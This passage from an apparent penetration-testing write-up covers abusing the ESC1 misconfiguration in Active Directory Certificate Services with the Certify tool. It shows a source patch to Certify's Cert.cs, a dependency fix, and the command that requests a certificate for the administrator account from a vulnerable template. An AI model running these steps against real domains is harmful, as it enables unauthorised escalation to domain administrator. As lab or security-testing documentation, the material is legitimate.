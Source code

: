 But Certify threw an error: **"An enrollment policy server cannot be located."**

##### Step 3: Patching Certify <a id="step-3-patching-certify"></a>

Fortunately, a solution exists.  **[Eliotsehr](https://github.com/Eliotsehr)** offers a patch on a **[Github issue](https://github.com/GhostPack/Certify/issues/13)**. This involves a slight change to the source code.
in the Cert.cs file we need to comment this line :
```
objPkcs10.InitializeFromPrivateKey(context, privateKey, templateName);
```

Then replace with the following content:
```
objPkcs10.InitializeFromPrivateKey(context, privateKey, "");

CX509ExtensionTemplateName templateExtension = new CX509ExtensionTemplateName();
templateExtension.InitializeEncode(templateName);
objPkcs10.X509Extensions.Add((CX509Extension)templateExtension);
```

By initializing the template name as an X.509 extension rather than directly in `InitializeFromPrivateKey`, this seems to get around the problem.

##### Step 4: Resolving Dependency Errors <a id="step-4-resolving-dependency-errors"></a>

When compiling Certify I got a dependency error (due to Visual Studio 2022), just add it to the `packages.config` file:
```
<package id="Interop.CERTENROLLLib" version="1.0.0" targetFramework="net40" developmentDependency="true" />
```

##### Step 5: Getting a Certificate <a id="step-5-getting-a-certificate"></a>

With the patched Certify, I successfully requested the certificate:
```cmd
.\Certify.exe request /ca:DC02.domain-b.local\domain-b-DC02-CA /template:ESC1VulnerableTemplate /altname:administrator
```